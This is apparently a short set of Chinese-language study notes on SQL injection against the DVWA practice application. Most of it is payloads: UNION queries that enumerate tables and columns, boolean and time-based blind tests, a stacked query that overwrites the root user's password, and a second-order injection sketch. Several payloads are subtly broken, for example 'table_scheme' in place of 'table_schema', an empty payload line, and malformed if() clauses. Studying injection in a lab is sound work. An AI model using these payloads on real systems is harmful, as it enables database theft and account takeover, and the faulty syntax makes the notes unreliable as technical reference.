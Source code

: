 查询当前数据库中的所有表
`0' union select null,group_concat(table_name) from information_schema.tables  where table_scheme='dvwa'#`
查询表
`0' union select null,group_concat(column_name) from information_schema.columns  where table_scheme='dvwa' and table_name='users'#`
查询当前用户->
playload:``
get注入点-> `And `1=1`
破解表名-> `And (Select Count(*) from Admin) >=0`
破解字段名->
盲注获得字段值

通过mysql注释符来注释后续语句，避免语法报错
`encodeURIComponent(#)` 必须通过URL编码 -> '%23'
`-- `

- 时间延迟注入
判断数据库名长度和数据库名
`1' if(length(database())>=8,0,sleep(5))#`
`1' if(substr(select database())>='a',0,sleep(5))#`


- [x] 堆叠性注入(stack injection)
通过分号堆叠注入,修改管理员密码

`select * from users where id=`
`1'; update users set password ='xiyuan' where username = 'root';#`

- [x] 二次注入
![](assets/inject-2.png)
更该当前用户的密码变成更改管理员密码
`update user set password = '$new_pass' where username='$username' and password='$curr_pass'`
